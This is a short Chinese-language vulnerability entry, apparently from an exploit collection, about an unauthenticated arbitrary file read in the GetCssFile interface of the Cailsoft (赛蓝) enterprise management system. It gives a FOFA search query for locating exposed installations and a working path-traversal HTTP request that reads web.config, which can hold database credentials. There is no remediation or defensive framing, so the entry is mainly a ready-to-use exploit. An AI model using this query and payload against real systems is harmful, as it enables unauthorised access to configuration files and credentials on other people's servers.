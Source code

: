 ## 赛蓝企业管理系统GetCssFile存在任意文件读取漏洞

赛蓝企业管理系统 GetCssFile接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```java
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```java
GET /Utility/GetCssFile?filePath=../web.config HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

